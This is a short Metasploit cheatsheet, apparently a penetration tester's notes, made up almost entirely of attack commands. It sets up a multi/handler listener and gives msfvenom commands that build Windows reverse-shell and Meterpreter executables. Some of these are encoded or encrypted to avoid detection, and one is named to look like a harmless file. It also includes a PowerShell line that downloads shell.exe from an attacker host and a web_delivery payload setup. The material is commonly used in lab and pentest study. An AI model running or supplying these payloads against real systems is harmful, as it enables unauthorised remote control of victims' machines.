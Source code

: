 # Metasploit Cheatsheet

## start metasploit

/opt/metasploit-framework/bin/msfconsole

## search for exploit

search exploitname

## show what option need to be filled

show options

## set the options

set RHOSTS 10.0.0.0

## set the lhost

set LHOST 10.1.0.25

## creating netcat listener

use exploit/multi/handler
set LHOST 10.9.1.25
set LPORT 1337
exploit -j

## Creating Windows Payload

- msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.25 LPORT=9999 -e x86/shikata_ga_nai -f exe -o 9999.exe

- msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai --encrypt aes256 LHOST=10.10.168.173 LPORT=9999 -f exe -o 9999.exe

- powershell Invoke-WebRequest -Uri http://10.10.168.173:9000/shell.exe -Outfile shell.exe

- msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.9.1.25 LPORT=9999 -f exe -o 9999.exe

- msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.1.25 LPORT=8888 -f exe -o Message.exe

## Creating webupload payload windows

- use exploit/multi/script/web_delivery
- set payload windows/meterpreter/reverse_tcp
- set target 2
- set LHOST 10.10.168.173
- set LPORT 9999
